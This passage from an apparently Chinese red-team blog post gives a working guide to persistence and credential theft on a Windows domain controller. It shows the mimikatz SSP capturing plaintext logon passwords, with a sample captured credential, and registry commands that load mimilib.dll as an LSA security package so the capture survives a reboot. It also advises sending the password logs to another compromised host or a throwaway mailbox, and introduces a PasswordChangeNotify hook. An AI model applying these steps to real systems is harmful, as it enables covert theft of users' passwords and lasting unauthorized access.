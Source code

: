 然后此时，我们重新登陆一下用户，就可以在`C:\Windows\System32\mimilsa.log`中看到记录下来的账户与密码了：

```text
[00000000:000ae6aa] GOD\Administrator	Admin12345
```
{: file='mimilsa.log'}

> 但是这个方法只要域控主机重启就无法使用了！！
>{: .prompt-warning}

#### 2、方法二：使用此方法即使系统重启，也不会影响到持久化的效果。

该方法的主要在于通过修改了注册表，使得我们读取的密码的`dll`程序可以开机自启。

> 密码本记录在`c:\windows\system32\kiwissp.log`。
> 
> 但是该方法需要重启目标主机才生效，比较危险！！
> {: .prompt-warning}

首先，将`mimikatz`下的`mimilib.dll`传至域控的`c:\windows\system32\ `目录下面，然后我们进行修改注册表：

```powershell
# 查看该注册表下的值
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
# 修改注册表下的值， 这里的\0代表着换行
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

然后，我们先看看未启动前两文件的对比：

![截图](a2a0c633b4ea5933e20b0febc82c6bdd.png)

此时，还没有`kiwissp.log`文件，且`mimilsa.log`中只有四个值。接下来，我们重启看看：

![截图](c16bf85d60b19f8103687783fed7eccf.png)

可以看到这里方法2记录了，方法1没有！！

> 所以建议我们两种一起用，这样子无论对方重启与否都对我们没有影响！
> 
> 除此之外，我们可以尝试利用把生成的日志密码文件发送到内网被控机器或者临时邮箱。
>{: .prompt-tip}

## 0x02 基于验证DLL加载-Hook

Hook PasswordChangeNotify 的作用是当用户修改密码后在系统中进行同步。==攻击者可利用此功能获取用户修改密码时输入的密码明文。==

相比与SSP上传mimilib.dll之后需要重启、放dll文件在system32文件夹下、且要修改注册表Hook PasswordChangeNotify既不需要重启，也不需要改注册表，还不需要放置dll文件，隐蔽性好一些。

#### 利用过程

这里，我们有两种利用的脚本：

[https://github.com/wh0Nsq/HookPasswordChange # 本地版的，需要编译为dll文件](https://github.com/wh0Nsq/HookPasswordChange)
